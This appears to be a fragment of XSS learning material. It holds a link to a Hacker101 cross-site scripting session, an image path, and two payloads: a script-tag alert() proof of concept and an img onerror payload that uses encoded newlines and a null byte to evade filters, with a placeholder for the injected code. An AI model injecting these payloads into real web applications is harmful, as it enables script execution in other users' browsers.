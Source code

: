 https://www.hacker101.com/sessions/xss

<script>alert("XSS 31337 :) ҉αkα x⠠⠵ 💎")</script>

<img src=`%00`&NewLine; onerror=PAYLOAD&NewLine;
